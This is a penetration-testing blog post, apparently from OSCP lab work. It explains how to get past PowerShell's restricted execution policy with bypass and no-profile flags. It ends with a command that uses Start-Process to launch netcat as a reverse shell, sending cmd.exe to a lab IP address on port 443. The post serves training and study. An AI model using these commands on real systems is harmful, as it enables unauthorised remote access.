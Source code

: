 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Beating Restricted Policies"
author: nanobyte
date:   2020-05-23
description: PowerShell for Penetration Testing, and how to beat restricted policies to run new processes
tags: PowerShell
---
```


Recently, while I was going for my Offensive Security Certified Professional (OSCP) certificate, I ran into a machine in the labs which had a restricted PowerShell. Simply stated, I could not enter into an interactive PowerShell session or run any PowerShell commands or scripts. PowerShell has several execution policies which can be set on a system, and these execution policies determines which scripts can be run. By default, this is set to "restricted". From Microsoft, restricted "doesn't load configuration files or run scripts. The default execution policy Windows client computers."

However, there is an execution policy which, as penetration testers, we want to have set. That execution policy is "bypass", which Microsoft states "nothing is blocked and there are no warnings or prompts." Luckily, I am able to set the execution policy when I call a PowerShell command, and can state that the PowerShell command needs to run with bypass as the policy. Now, even though the default restricted policy is set, our commands will still run. To run a PowerShell command with bypass:

{% highlight powershell linenos %}
powershell -ExecutionPolicy Bypass -Command "whoami"
{% endhighlight %}

Or, for shorthand:

{% highlight powershell linenos %}
powershell -exec bypass -c "whoami"
{% endhighlight %}

Now, even though the system is restricted, PowerShell can still be leveraged! Let's build on this and take it another step further. When you enter a PowerShell session or run a command or script, you run it in the context of the current profile. I could check the PowerShell profile and see what is set. But by running commands without checking this first, I do not know what the profile contains. Alternatively, for best practices, I can supply the No Profile flag which will run my script without using any profile:

{% highlight powershell linenos %}
powershell -ExecutionPolicy Bypass -NoProfile -Command "whoami"
{% endhighlight %}

Or, another shorthand:

{% highlight powershell linenos %}
powershell -exec bypass -nop -c "whoami"
{% endhighlight %}

With this, I can run commands from a restricted PowerShell enviornment without any profile loading. We are almost at the end goal, to spawn a new process on the system. Luckily, PowerShell has the built in Start-Process cmdlet (command-let). A cmdlet is a lightweight command that can be used within a PowerShell enviornment. There is most likely a cmdlet for anything you wish to accomplish in PowerShell. In my case, I wanted to start netcat for a reverse shell.

Start-Process is a powerful cmdlet, and to better understand it visit <a href="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7" target="_blank">docs.microsoft</a>. For my case, I needed to first define the program to spawn, followed by the arguments. Simply calling `Start-Process nc -e cmd.exe <IP> <PORT>` would fail here. To properly spawn this new process:
  
{% highlight powershell linenos %}
powershell -exec bypass -nop -c "& {$prog='C:\\temp\\nc.exe'; $args='-e cmd.exe 192.168.119.129 443'; Start-Process $prog $args }"
{% endhighlight %}

Now, my command will call PowerShell with bypass as the execution policy, to run without any profile set, and run my Start-Process command, properly passing the $prog and $args variables. At this point, you might be asking, where did the ampersand come from? In PowerShell, the ampersand is a reserved character for a run call operator. This call operator is needed to force PowerShell to treat the text as a command and not a string, and execute it. For more information, please visit <a href="https://ss64.com/ps/call.html" target="_blank">ss64.com</a>.

And that is it, the above command will now spawn a new process, bypassing the restricted PowerShell execution policy to run my command! 
